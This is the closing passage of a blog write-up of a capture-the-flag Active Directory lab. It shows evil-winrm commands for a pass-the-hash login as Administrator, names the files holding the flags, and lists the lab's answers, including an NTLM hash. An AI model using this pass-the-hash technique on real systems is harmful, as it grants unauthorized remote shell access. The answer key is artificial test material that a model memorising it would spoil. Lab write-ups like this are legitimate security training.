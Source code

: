 we can use the tool `evil-winrm` top perform the pass-the-hash account , in this attacks with don't have to use the password to authenticate with the system to get the shell , we can use the hash to get the shell .. 

```shell
# installing evil-winrm in the kali linux 
$ sudo apt install evil-winrm
```
command to to perform pass-the-hash attack usingevil-winrm

```shell
evil-winrm -i MACHINE_IP -u Administrator -H THEFOUNDHASH
```

- after getting shell you can extract the flag from the respective user desktop directory 

> Administrator : root.txt <br>
> svc-admin : user.txt.txt <br>
> backup : PrivEsc.txt <br>

> **Question** : What method allowed us to dump NTDS.DIT ? <br>
Answer : DRUSAPI

> **Question** : What is the Administrators NTLM hash ? <br>
Answer : 0e0363213e37b94221497260b0bcb4fc

> **Question** : What method of attack could allow us to authenticate as the user without the password ? <br>
Answer : Pass The Hash

> **Question** : Using a tool called Evil-WinRM what option will allow us to use a hash ? <br>
Answer : -H 

<br>

-------------------------------

<br>

### <span style="color: DarkSalmon;"><b># Final Thoughts</b></span>
<br>
I hope this space continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts—my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on
[Linkedin](https://www.linkedin.com/in/hitesh-sharma-413862245) and [Twitter](https://twitter.com/archtrmntor)


{: .nolineno }





